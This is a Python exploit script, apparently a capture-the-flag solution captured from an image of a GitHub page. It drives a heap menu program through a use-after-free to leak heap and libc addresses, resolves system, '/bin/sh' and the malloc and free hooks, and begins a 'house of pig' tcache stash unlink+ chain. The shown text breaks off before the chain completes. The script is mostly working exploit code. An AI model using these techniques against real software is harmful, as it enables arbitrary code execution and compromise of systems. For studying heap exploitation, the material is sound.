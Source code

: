    ```python
   
   def show(index):
       p.sendlineafter(b':',b'2')
       p.sendlineafter(b':',str(index).encode())
   
   def free(index):
       p.sendlineafter(b':','4')
       p.sendlineafter(b':',str(index).encode())
   
   
   for i in range(0,7):
       add(0,0x87)
       free(0)
   show(0)
   p.recvuntil(b"context: ")
   heap_base = u64(p.recvuntil("\n")[:-1].ljust(8,b"\x00"))-0x520
   success("heap_base==:"+hex(heap_base))
   
   add(0,0x87)
   add(1,0x87)
   free(0)
   show(0)
   #泄漏libc
   p.recvuntil(b"context: ")
   addr = u64(p.recvuntil(b"\x7f")[-6:].ljust(8,b'\x00'))
   success("main_arena_unsortbin_addr==>"+hex(addr))
   main_arena_offset = libc.symbols["__malloc_hook"]+0x10
   success("main_arena_offset==>"+hex(main_arena_offset))
   libc_base = addr-(main_arena_offset+0x60)
   success("libc_addr==>"+hex(libc_base))
   
   IO_list_all_addr   = libc_base + libc.symbols["_IO_list_all"]
   _IO_str_jumps_addr = IO_list_all_addr + 0xFC0
   success("_IO_str_jumps_addr ==> " + hex(_IO_str_jumps_addr))
   success("IO_list_all_addr   ==> " + hex(IO_list_all_addr))
   
   #计算__free_hook和system地址
   malloc_hook_addr = libc_base+libc.sym["__malloc_hook"]
   success("malloc_hook_addr==>"+hex(malloc_hook_addr))
   system_addr = libc_base+libc.sym["system"]
   sh_addr = libc_base+next(libc.search("/bin/sh"))
   free_hook_addr = libc_base+libc.sym["__free_hook"]
   success("system_addr==>"+hex(system_addr))
   success("free_hook_addr==>"+hex(free_hook_addr))
   success("sh_addr==>"+hex(sh_addr))
   
   # ========== house of pig ==========
   
   for i in range(0,5):    #在tcache中放5个0xb0的chunk,后面tcache stash unlink +使用
       add(0,0xa0)
       free(0)
   
   add(1,0x87)     # 隔开
   
   # 先构造好 tcache stash unlink + 
   # 构造两个small bin大小为0xa0，与前面tcache中的对应
   
   # 用这里的chunk3和chunk4 切割出两个small bin大小为0xa0
   add(3,0x430)
   add(1,0x87)     # 隔开
   add(4,0x430)
   add(1,0x87)     # 隔开
   free(3)
   ```